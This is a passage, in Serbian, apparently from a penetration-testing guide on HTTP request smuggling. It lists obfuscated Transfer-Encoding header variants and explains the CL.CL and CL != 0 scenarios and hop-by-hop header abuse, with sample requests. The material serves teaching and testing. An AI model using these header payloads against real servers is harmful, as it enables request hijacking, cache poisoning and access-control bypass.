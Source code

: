 ```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

#### **CL.CL Scenario (Content-Length korišćen od strane oba prednjeg i zadnjeg dela):**

* Oba servera obrađuju zahtev isključivo na osnovu zaglavlja `Content-Length`.
* Ovaj scenario obično ne dovodi do krijumčarenja, jer postoji usklađenost u tome kako oba servera tumače dužinu zahteva.
* **Primer:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 16
Connection: keep-alive

Normalan zahtev
```

#### **CL != 0 Scenario:**

* Odnosi se na scenarije gde je zaglavlje `Content-Length` prisutno i ima vrednost različitu od nule, što ukazuje da telo zahteva ima sadržaj.
* Ključno je za razumevanje i kreiranje napada krijumčarenja, jer utiče na to kako serveri određuju kraj zahteva.
* **Primer:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 16
Connection: keep-alive

Telo sa sadržajem
```

#### Forsiranje putem zaglavlja hop-by-hop

Zloupotrebom zaglavlja hop-by-hop možete ukazati proksi da **obriše zaglavlje Content-Length ili Transfer-Encoding kako bi bilo moguće zloupotrebiti HTTP zahtev krijumčarenjem**.
